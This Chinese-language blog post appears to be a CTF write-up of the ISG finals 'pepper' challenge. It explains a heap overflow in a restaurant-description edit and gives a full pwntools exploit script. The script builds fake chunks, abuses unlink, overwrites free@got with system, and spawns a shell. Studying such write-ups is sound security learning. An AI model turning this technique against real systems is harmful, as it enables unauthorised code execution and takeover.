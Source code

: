 ```yaml
---
title: ISG决赛pepper
author: rk700
layout: post
tags:
  - exploit
---
```


这道题目是去年参加ISG决赛时遇到的。二进制文件是有多个漏洞，我们当时是做的栈溢出，而堆溢出一直没有研究过。正好这两天在学习堆溢出，发现这道题和0CTF的freenote十分相似，不愧是同一批人出的题目。所以，在这里简要记录下，因为思路是完全一样的

具体地，通过修改restaurant的功能，我们可以重新编辑restaurant的description。description是保存在堆上的，但在修改时，完全没有考虑新的内容会超过之前分配的大小，于是堆溢出了。与freenote一样，我们写大量的内容到堆上，来构造一系列伪chunks，再通过`free`时的`unlink`，来修改某个值。

在`unlink`检查时，也用的是和freenote一样的方法，即找到某个存有我们伪chunk地址的地方，从那里往前3个指针作为`fd`，往前2个指针作为`bk`。freenote里，保存`malloc`地址的结构数组是存在堆上的，所以那道题我们需要首先得到heap的地址。而pepper这道题，保存所有restaurant结构的数组是在全局变量，已经是固定位置，所以省下了这一环节。

后面的思路就完全一样了。再次修改，使得description指向`free@got`，并通过读写，将`system`的地址写到`free@got`，最后删除时就会调用`system`了。

下面是具体代码：

{% highlight python %}
#!/usr/bin/env python2

from pwn import *

r = remote('127.0.0.1', 55555)

f = open("payload", "wb")

def send(x):
    r.send(x)
    f.write(x)

def newItem(length, desc, name="restaurant", address="road", no="1", score=100):
    r.recvuntil('Your choice: ')
    send('4\n')
    r.recvuntil('Input Rest. name(no more than 32 characters): ')
    send(name+'\n')
    r.recvuntil('On which road(no more than 128 characters)? ')
    send(address+'\n')
    r.recvuntil('Street No? ')
    send(no+'\n')
    r.recvuntil('Length of the description of your favourite dish: ')
    send(str(length)+'\n')
    r.recvuntil('Input your description:')
    send(desc+'\n')
    r.recvuntil('Finally, give a score ;-)')
    send(str(score)+'\n')

def delItem(i):
    r.recvuntil('Your choice: ')
    send('3\n')
    r.recvuntil('Input the index of Rest. you want to delete: ')
    send(str(i) + '\n')

def showItem(i):
    r.recvuntil('Your choice: ')
    send('2\n')
    r.recvuntil('Please input the index of the restaurant: ')
    send(str(i)+'\n')
    r.recvuntil('Recommended Dish: ')
    return r.recvline(keepends=False)

def editItem(i, length, desc, score=100):
    r.recvuntil('Your choice: ')
    send('5\n')
    r.recvuntil('Input the index of Rest. you want to edit: ')
    send(str(i) + '\n')
    r.recvuntil('New score XD: ')
    send(str(score) + '\n')
    r.recvuntil('Do you want to change the description of the recommended dish(y/n)? ')
    send("y\n")
    r.recvuntil('New len: ')
    send(str(length)+'\n')
    r.recvuntil('New description: ')
    send(desc+'\n')

def quit():
    r.recvuntil('Your choice: ')
    send('6\n')

newItem(127, "aaaa")
newItem(127, "bbbb")

#fd->bk = bk->fd = &ptr
ptr = 0x0804b0a0 + 4*2
fd = ptr - 4*3
bk = ptr - 4*2

# crafted chunks
# chunk0' starts from &ptr
# chunk0 is free
chunk0 = p32(0) + p32(0x81) + p32(fd) + p32(bk) + "A"*(0x80-4*4)
chunk1 = p32(0x80) + p32(0x90) + "B"*(0x90-4*2)
chunk2 = p32(0) + p32(0x91) + "C"*(0x90-4*2)
chunk3 = p32(0) + p32(0x91) + "D"*(0x90-4*2)
chunk = chunk0 + chunk1 + chunk2 + chunk3
editItem(0, 1000, chunk)

# free chunk1, and will result in unlink of chunk0
delItem(1)
# now restaurant0's description points to 0x0804b09c

freeGot = 0x0804b014
free2system = -0x38520

# will overwrite first 12 bytes of restaurant0 and set its description pointing to free@got
editItem(0, 20, p32(0)+p32(100)+p32(20)+p32(freeGot))

s = showItem(0)
freeAddr = u32((s[:4].ljust(4, '\x00'))[:4])
systemAddr = freeAddr + free2system
print "system is at %s" % hex(systemAddr)

# write system to free@got
editItem(0, 4, p32(systemAddr))

# invoke system("/bin/sh")
newItem(20, "/bin/sh")
delItem(1)

r.interactive()
exit(0)
{% endhighlight %}

所以这道题用的还是`unlink`。而我看[217的writeup](http://217.logdown.com/posts/241446-isg-2014-pepper)里，似乎是通过fastbin来做的，有空再研究下fastbin这种方法。
